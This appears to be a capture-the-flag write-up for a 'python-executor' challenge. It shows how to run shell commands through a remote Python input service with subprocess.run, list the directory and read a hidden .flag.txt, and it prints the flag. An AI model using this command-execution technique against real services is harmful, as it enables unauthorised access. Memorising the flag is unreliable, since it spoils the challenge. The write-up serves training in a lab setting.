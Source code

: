 # python-executor


<br/>


## Challenge Description :

I made my own Python shell that executes valid Python syntax input statements and gives you the output. Try it out.

Connect to : `nc 35.244.42.91 1024`


<br/>


## Hint :

Example : `import <MODULE>; <MODULE>.run(["echo", "hello"])`

Replace `<MODULE>` with the appropriate module.


<br/>


## Flag :

`isfcr{3x3c_0r_5ubpr0c355_run?}`


<br/>


## Solution :

This challenge involves remote shell code execution using Python.

1. Using the hint, we figure out that the `<MODULE>` is the `subprocess` module.
2. Connect to the server and execute the example command : `import subprocess; subprocess.run(["echo", "hello"])`
    - We get the output `hello`. This tells us that we are able to execute Linux shell commands.
3. Let's try and list all the files in the directory : `import subprocess; subprocess.run(["ls", "-la"])`
    - We get the output :
        ```
        total 44
        dr-xr-xr-x 1 root root 4096 Apr 24 06:40 .
        drwxr-xr-x 1 root root 4096 Apr 24 05:03 ..
        -r-xr-xr-x 1 root root  220 Apr 23  2023 .bash_logout
        -r-xr-xr-x 1 root root 3526 Apr 23  2023 .bashrc
        -r-xr-xr-x 1 root root   30 Apr 24 06:38 .flag.txt
        -r-xr-xr-x 1 root root  807 Apr 23  2023 .profile
        -r-xr-xr-x 1 root root  290 Apr 24 06:38 Dockerfile
        -r-xr-xr-x 1 root root  776 Apr 24 06:38 README.md
        -r-xr-xr-x 1 root root  527 Apr 24 06:38 app.py
        ```
4. Let's read the contents of `.flag.txt` to get the flag : `import subprocess; subprocess.run(["cat", ".flag.txt"])`

